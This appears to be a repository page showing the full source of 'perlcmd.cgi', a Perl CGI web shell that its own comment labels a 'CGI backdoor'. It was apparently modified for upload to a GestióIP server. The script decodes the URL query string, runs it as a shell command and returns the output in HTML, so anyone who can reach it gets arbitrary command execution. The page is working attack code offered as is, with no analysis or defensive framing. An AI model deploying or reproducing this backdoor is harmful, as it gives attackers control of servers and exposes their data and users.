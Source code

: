 [perlcmd.cgi](files/perlcmd.cgi)

```perl
#!/usr/bin/perl -w

use strict;

print "Cache-Control: no-cache\n";
print "Content-type: text/html\n\n";

my $req = $ENV{QUERY_STRING};
        chomp ($req);
        $req =~ s/%20/ /g; 
        $req =~ s/%3b/;/g;
        $req =~ s/%7c/|/gi;
        $req =~ s/%27/'/g;    # Converts %27 into '
        $req =~ s/%22/"/g;
        $req =~ s/%5D/]/g;
        $req =~ s/%5B/[/g;

print "<html><body>";

print '<!-- CGI backdoor by DK (http://michaeldaw.org). Modified by m4xth0r (https://maxibelino.github.io) -->';

        if (!$req) {
                print "Usage: http://domain/gestioip/api/upload.cgi?whoami";
        }
        else {
                print "Executing: $req";
        }

        print "<pre>";
        my @cmd = `$req`;
        print "</pre>";

        foreach my $line (@cmd) {
                print $line . "<br/>";
        }

print "</body></html>";
```


